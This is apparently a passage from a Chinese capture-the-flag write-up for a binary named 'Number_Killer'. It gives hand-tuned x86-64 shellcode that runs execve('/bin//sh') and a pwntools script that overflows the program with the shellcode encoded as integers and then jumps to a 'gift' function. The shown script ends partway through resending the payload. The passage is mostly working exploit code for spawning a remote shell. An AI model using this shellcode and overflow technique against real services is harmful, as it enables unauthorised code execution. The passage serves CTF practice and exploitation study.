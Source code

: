 经过改造之后

```
push rax
pop  rax
cqo
push rdx
push rax
pop  rax
mov  rdi, 68732F2F6E69622Fh
pop  rax
push rax
push rdi
push rsp
pop  rsi
mov  r8, rdx
push rax
pop  rax
push rax
pop  rax
push rax
pop  rax
mov  r10, rdx
syscall 
```

还有一个点就是，循环次数也在覆盖范围只能，得先算法他的值，不能改变他的值，不然会出错。然后跳转到gift函数就可以了。

```
#!/usr/bin/python
#coding:utf-8
from pwn import *
from time import *
from LibcSearcher import *

context.log_level="debug"

EXEC_FILE = "./Number_Killer"
REMOTE_LIBC = "./db/libc6_2.24-9ubuntu2.2_amd64.so"

r = remote('172.17.0.2', 10002)
elf = ELF(EXEC_FILE)
libc = ELF(REMOTE_LIBC)

r.recvuntil("!")
r.sendline(str(0x505850c4fe58426a))
r.sendline(str(0x5850529948585058))
r.sendline(str(0x2f2f6e69622fbf48))
r.sendline(str(0x495e545758506873))
r.sendline(str(0x585058505850d089))
r.sendline(str(0x000000050fd28949))
r.sendline(str(0))
r.sendline(str(0))
r.sendline(str(0))
r.sendline(str(0))
r.sendline(str(0))
r.sendline(str(47244640256))
r.sendline(str(0x40078D))
r.sendline(str(0x40078D))

r.sendline(str(0x505850c4fe58426a))
r.sendline(str(0x5850529948585058))
r.sendline(str(0x2f2f6e69622fbf48))
r.sendline(str(0x495e545758506873))
r.sendline(str(0x585058505850d089))
```